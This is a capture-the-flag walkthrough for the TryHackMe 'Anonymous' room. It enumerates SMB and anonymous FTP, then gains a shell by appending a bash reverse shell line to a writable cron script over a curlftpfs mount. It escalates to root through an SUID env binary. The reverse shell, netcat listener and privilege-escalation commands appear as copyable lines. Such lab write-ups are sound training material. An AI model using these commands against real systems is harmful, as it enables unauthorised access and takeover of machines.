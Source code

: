 # **Anonymous**
This is a writeup for the TryHackMe room [anonymous](https://tryhackme.com/room/anonymous).

The questions ask about ports, so let's start with an nmap scan.

```bash
nmap -sV $ip
```

![nmap_scan](assets/images/anonymous/nmap_scan.png)

This nmap scan shows us that ports 21, 22, 139 and 445 are open. Port 21 is used for FTP, port 22 is used for ssh and ports 139 and 445 are use for SMB.

Let's check for SMB shares.

```bash
smbmap -H $ip -R
```

![smbmap](assets/images/anonymous/smbmap.png)

This shows us two files that we can download, corgo2.jpg and puppos.jpeg.

```bash
smbget -R smb://$ip/pics
```

When prompted for a password, just press **ENTER**.

![smbget](assets/images/anonymous/smbget.png)

![corgo](assets/images/anonymous/corgo2.jpg)

![corgos](assets/images/anonymous/puppos.jpeg)

These look like they're just pictures of dogs but let's exiftool them just in case.

![exif](assets/images/anonymous/exif.png)

Nothing interesting there. SMB seems to be a dead end for now, let's check FTP.

```bash
ftp $ip
```

When prompted for a username input **anonymous**, and when prompted for a password press **ENTER**.

![ftp_shown](assets/images/anonymous/ftp_shown.png)

The scripts folder has some interesting sounding files in it, so let's get those. The command `get` can be used to download files from FTP.

![ftp_get](assets/images/anonymous/ftp_get.png)

Let's see what those files are, **clean.sh** seem the most interesting so we'll check that first.

![clean-sh](assets/images/anonymous/clean-sh-cat.png)

It seems to delete temporary files, so maybe it's a cronjob? We'll look in to that in a minute, first lets see what those other files are.

![cleanuplog](assets/images/anonymous/cleanuplog.png)

Nothing useful there. Let's check **to_do.txt**, it's nothing interesting either.

Back to that **clean.sh** file, maybe we can add to that file and see if anything happens. We can use `curlftpfs` to mount and change the file.

First we need to create a folder for the files to mount to.

```bash
mkdir ftp
```

Then we run `curlftpfs`.

```bash 
sudo curlftpfs anonymous@$ip ftp/
```

![ftpfs](assets/images/anonymous/ftpfs.png)

Now we need to edit the **clean.sh** file, we can do that with any text editor but for now we'll just use `nano`.

```sh
sudo nano ftp/scripts/clean.sh
```

![nano1](assets/images/anonymous/nano1.png)

We're going to add a line to give us a reverse shell. Credit goes to the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) github repo for the reverse shell.

```bash
bash -i >& /dev/tcp/$yourip/4242 0>&1
```

![nano2](assets/images/anonymous/nano2.png)

Now we need to set up a netcat listener, we can use the following command for this.

```sh
nc -lnvp 4242
```

And now we wait...

![flag1](assets/images/anonymous/flag1.png)

Once we have a reverse shell we can print out the user flag. We should probably stabilise our shell, we can do that with python.

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Now that that's done let's move on to priv-esc. First we'll check for **SUID** binaries.

```sh
find / -user root -perm -4000 -print 2>/dev/null
```

![suid](assets/images/anonymous/suid.png)

The only thing out of the ordinary there is `env`, so let's check [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) to see if they have any suggestions.

```sh
env /bin/sh -p
```

This will give us root and allow us to get the flag.

![root](assets/images/anonymous/root.png)
